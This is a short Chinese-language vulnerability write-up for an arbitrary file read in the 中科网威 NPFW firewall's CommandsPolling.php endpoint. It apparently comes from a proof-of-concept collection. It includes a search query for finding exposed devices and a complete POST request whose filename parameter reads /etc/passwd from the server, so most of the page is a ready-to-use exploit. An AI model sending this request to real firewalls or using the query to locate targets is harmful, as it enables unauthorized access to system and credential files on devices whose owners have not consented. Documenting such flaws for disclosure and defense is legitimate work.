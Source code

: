 # 中科网威 NPFW防火墙 CommandsPolling.php 任意文件读取漏洞

## 漏洞描述

中科网威 NPFW防火墙 存在任意文件读取漏洞，由于代码过滤不足，可读取服务器任意文件

## 漏洞影响

<a-checkbox checked>中科网威 NPFW防火墙 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>"中科网威" && "/direct"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1628698968275-7026aca2-33d4-4faa-9352-5a2f9bab7675.png)

发送请求包

```php
POST /direct/polling/CommandsPolling.php HTTP/1.1
Host: 
Cookie: PHPSESSID=014d2705856e1df139772db42ccbaf9f
Content-Length: 47
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="92", " Not A;Brand";v="99", "Google Chrome";v="92"
Sec-Ch-Ua-Mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close

command=ping&filename=%2Fetc%2Fpasswd&cmdParam=
```

![img](../../../.vuepress/public/img/1628699095412-3ee37eb5-54ed-4408-a13e-71159fc36610.png)